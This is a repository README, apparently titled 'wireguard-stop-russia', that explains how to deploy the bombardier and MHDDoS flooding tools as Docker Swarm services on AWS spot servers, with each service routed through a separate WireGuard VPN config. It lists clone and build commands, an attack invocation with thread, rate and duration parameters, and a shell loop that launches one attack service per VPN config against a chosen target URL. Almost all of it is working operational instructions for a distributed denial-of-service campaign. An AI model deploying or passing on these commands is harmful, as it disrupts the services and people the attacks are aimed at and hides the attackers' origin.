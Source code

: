 #### VPN servers:
* Install Wireguard in several AWS regions
* Generate wireguard configs from this services
* Wireguard HowTo:
  * Just google...
  * Register on [VPN Unlimited](https://www.vpnunlimited.com/ru/) and export wireguard config from your account

##### Docker swarm bombardier or MHDDoS via wireguard
* ``` mkdir -p /home/$USER/wireguard-conf ```
* Put wireguard configs to some directory (example: /home/$USER/wireguard-conf)
* Spin-up spot server on AWS with Ubuntu 20.04
* Install docker
* Add tour current user to docker group ```  sudo usermod -aG docker $USER ```
* Install wireguard package on this server ``` sudo apt install wireguard ```
* Clone repo:
  * to use bombardier clone master branch:
  ``` bash
  git clone https://github.com/neironus/wireguard-stop-russia.git
  ```
  * to use MHDDoS clone dripper branch 
  ``` bash
  git clone --branch dripper https://github.com/neironus/wireguard-stop-russia.git
  ```
  * to use MHDDoS_proxy clone mddos-proxy branch 
  ``` bash
  git clone --branch mddos-proxy https://github.com/neironus/wireguard-stop-russia.git
  ```
* Change directory to this repo
* Build docker image (It take about - 20 minutes, feel free to optimize the process): 
    ``` bash 
    DOCKER_BUILDKIT=1 docker build --tag wireguard-stop-russia . 
    ```

# Image based on this tutorial - [link](https://telegra.ph/MHDDoS-na-prokachku-03-11)
``` bash
# Init docker swarm
docker swarm init --advertise-addr $(hostname -i)
# If you dot an error please use next command:  
docker swarm init
```
``` bash
# Example: 
python3 runner.py https://example.com/ -t 1000 -p 300 --rpc 100 --http-methods ovh --debug
```
* VPN needs only for UDP and it will be started automatically
``` bash
# Create services with wireguard configs
# One wireguard config == 1 service with 1 replica
export WG_CONF_DIR=/home/$USER/wireguard-conf
export WIREGUARD_PORT=51820
export TARGET='https://example.com/'
export METHOD=ovh
export REQUESTS_COUNT=1000
export CONNECTIONS=100
export ATTACK_PERIOD=300

for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; export WIREGUARD_CLIENT_CONFIG="$WG_CONF_DIR/$i"; docker stack deploy -c docker-compose.yml $name; sleep 1; done

# Delete services
export WG_CONF_DIR=/home/$USER/wireguard-conf
for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; docker stack rm $name; sleep 1; done


# List containers
docker ps 

# Get top from specific container (Get container id form prevues command)
docker top container-id 

# Get logs from specific container
docker logs container-id 
docker logs -f container-id 
```
``` bash
for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; export WIREGUARD_CLIENT_CONFIG="$WG_CONF_DIR/$i"; echo "$name - $WIREGUARD_CLIENT_CONFIG"; sleep 1; done

```